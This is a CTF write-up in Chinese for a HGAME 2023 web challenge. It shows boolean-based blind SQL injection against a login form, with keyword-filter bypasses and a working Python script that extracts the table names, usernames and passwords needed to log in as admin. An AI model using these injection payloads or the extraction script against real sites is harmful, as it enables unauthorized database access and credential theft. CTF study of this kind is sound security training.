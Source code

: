 ![](<./img/Pasted image 20230208181804.png>)

```
/login
```

```
Username: testuser
Password: testpassword
```

![](<./img/Pasted image 20230208182845.png>)

```
/index
```

![](<./img/Pasted image 20230208183026.png>)

```
Username: 1'or/**/1#
Password: 
```

```
Success!
```

```
Username: 1'or/**/0^1#
Password: 
```

```
Failed!
```

存在布尔盲注

经过测试，过滤掉了这些东西

```
<space>
=
union
substr
and
mid
```

可以利用`left`和`right`函数的组合实现字符串的截取

```python
from requests import post
from sys import stdout

url = 'http://week-3.hgame.lwsec.cn:30056/login'
data = {'username': '', 'password': ''}

username = "1'or/**/{}>{}#"
password = ''

nth_ascii = 'ascii(right(left({},{}),1))'

success = lambda response: 'Success' in response.text

index = 0
while True:
    index += 1
    left = 0
    right = 127
    while left < right:
        mid = (left + right) // 2
        payload = data.copy()
        payload['username'] = username.format(
            nth_ascii.format('database()', index), mid
        )
        if success(post(url, payload)): # mid < nth_char
            left = mid + 1
        else:
            right = mid
    print(chr(left), end='')
    stdout.flush()
```

```
L0g1NMeeeee...
```

```python
payload['username'] = username.format(
	nth_ascii.format('(select(group_concat(table_name))from(information_schema.tables)where(table_schema)in(database()))', index), mid
)
```

```
User1nf0mAt1onnnnn...
```

```python
payload['username'] = username.format(
    nth_ascii.format("(select(group_concat(column_name))from(information_schema.columns)where(table_name)in('User1nf0mAt1on'))", index), mid
)
```

```
id,PAssw0rD,UsErN4meeeee...
```

```python
payload['username'] = username.format(
    nth_ascii.format("(select(group_concat(UsErN4me))from(User1nf0mAt1on))", index), mid
)
```

```
hgAmE2023HAppYnEwyEAr,testuserrrrr...
```

2023 happy new year~

```python
payload['username'] = username.format(
    nth_ascii.format("(select(group_concat(PAssw0rD))from(User1nf0mAt1on))", index), mid
)
```

```
WeLc0meT0hgAmE2023hAPPySql,testpassworddddd...
```

```
Username: hgAmE2023HAppYnEwyEAr
Password: WeLc0meT0hgAmE2023hAPPySql
```

```
Hello admin!
```

```
/home
```

![](<./img/Pasted image 20230208205128.png>)

#Web #SQL注入 #布尔盲注 #绕过 